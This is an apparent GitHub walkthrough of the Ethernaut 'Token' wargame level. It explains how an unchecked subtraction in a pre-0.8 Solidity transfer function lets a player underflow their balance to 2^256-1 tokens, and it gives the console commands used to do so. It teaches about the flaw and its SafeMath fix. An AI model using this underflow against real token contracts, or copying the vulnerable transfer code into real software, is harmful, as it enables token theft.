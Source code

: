 # Token – Level 7 Walkthrough

Welcome to the **Token** level of the [**Ethernaut**](https://ethernaut.openzeppelin.com/) wargame by OpenZeppelin, focused on exploiting **integer underflows** in smart contracts.

---

## Challenge Objective

You are given an ERC20-like token contract where:

- You start with **20 tokens**
- Your goal is to:
    - Exploit the contract to **get more than 20 tokens**
    - Submit the instance to complete the level

---

## Prerequisites

Ensure you have:

- MetaMask installed and connected
- Some test ETH (e.g., on Sepolia or Goerli)
- Console access on the Ethernaut page
- Understanding of basic ERC20 and Solidity underflow vulnerabilities

---

## Getting Started

### 1. Load the Level

- Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
- Select **“Token”**
- Click **"Get new instance"**
- Confirm transaction in MetaMask

Once deployed, a `contract` object becomes available in the browser DevTools console.

---

## Vulnerability Background

The contract looks something like this:

```solidity
mapping(address => uint) balances;

function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
}
```

The key issue:  
Before Solidity 0.8.0, arithmetic underflows would **wrap around** silently instead of throwing errors. So if you have 20 tokens and try to transfer **21**, your balance becomes:

```
balances[msg.sender] = 20 - 21 = uint256(-1) = 2^256 - 1
```

This gives you **a huge number of tokens**.

---

## Walkthrough – Step by Step

### Step 1: Check Your Balance

```js
await contract.balanceOf(player)
// should return: BigNumber { _hex: '0x14', ... } → 20 tokens
```

---

### Step 2: Transfer More Than You Own

```js
await contract.transfer('0x0000000000000000000000000000000000000000', 21)
```

You don’t need the address to be special — we just need the math to trigger.

> 💥 This will cause an **underflow**, giving your account `2^256 - 1` tokens.

---

### Step 3: Check Your New Balance

```js
(await contract.balanceOf(player)).toString()
// should return something like: '115792089237316195423570985008687907853269984665640564039457584007913129639935'
```

Now you have **more than enough tokens**.

---

### Step 4: Submit the Level

Click **"Submit instance"** on the Ethernaut UI and confirm in MetaMask.

🎉 Level Complete!

---

## What You Learn

- How integer underflows were a critical vulnerability in pre-0.8 Solidity
- Importance of safe math operations or compiler safeguards
- ERC20 basics and smart contract accounting

---

## Concepts Covered

| Concept                 | Description                                                                |
| ----------------------- | -------------------------------------------------------------------------- |
| Integer underflow       | When subtracting a larger number from a smaller one wraps the number space |
| ERC20 token standard    | Basic mechanics of token balances and transfers                            |
| Secure math in Solidity | Use of `SafeMath` library or built-in checks in Solidity >= 0.8            |

---

## Resources

- [Ethernaut](https://ethernaut.openzeppelin.com/)
- [Solidity Docs – Arithmetic Safety](https://docs.soliditylang.org/en/latest/080-breaking-changes.html#unchecked)
- [OpenZeppelin Contracts – SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)
- [blog](https://shubhamm.me/blog/ethernaut_challenges_token)

---